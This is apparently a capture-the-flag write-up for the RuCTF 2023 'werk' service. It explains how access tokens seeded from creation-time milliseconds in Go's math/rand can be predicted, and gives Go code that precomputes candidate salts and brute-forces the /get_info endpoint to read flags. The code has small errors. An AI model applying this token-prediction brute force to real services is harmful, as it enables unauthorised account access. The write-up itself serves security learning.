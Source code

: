 # RuCTF 2023 | werk

## Description

The service is pretty simple: it allows users to register in it and get registration info (user's field "payment-info" is an attack data).
And with registration it returns some "lucky numbers" - lottery analog for users.

## Vuln

User access token are generated by standard go rand on creation, with seed on creation time milliseconds:
```golang
rand.Seed(time.Now().UnixMilli())

luckyNumbers := RandomLuckyNumbers() // just 4 rand calls
salt := RandomString(20) // rand is index in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

// ...

return GetBaseHash(username + salt)
```

Username can be taken from CS, as public flag id. So we need to brutforce salt.

There are 60000 salts for every round's registrations, which can be computed by this code:
```golang
intrestedMinuteStart := time.Now().UnixMilli()
salts := make(map[string]bool)

for mss := 0; mss < 60000; mss++ {
    rand.Seed(intrestedMinuteStart + mss)
    _ := RandomLuckyNumbers()
    nextSalt := RandomString(20)
    salts[nextSalt] = true
}
```

After this, we can make attempts to /get_info and flag from payment-info
```golang
func bruteforce(username string) {
    for salt := range salts {
        // attempt to /get_info with token = sha1(username + salt)

        values := map[string]string{"username": username, "token": GetBaseToken(username + salt)}
        jsonData, err := json.Marshal(values)

        resp, err := http.Get(fmt.Sprintf("http:%s/get_info", victimAddress), bytes.NewBuffer(jsonData))
        if err != nil {
            continue
        }
        defer resp.Body.Close()

        body, err := ioutil.ReadAll(resp.Body)
        if err != nil {
            continue
        }

        fmt.Println(string(body))
    }
}
```
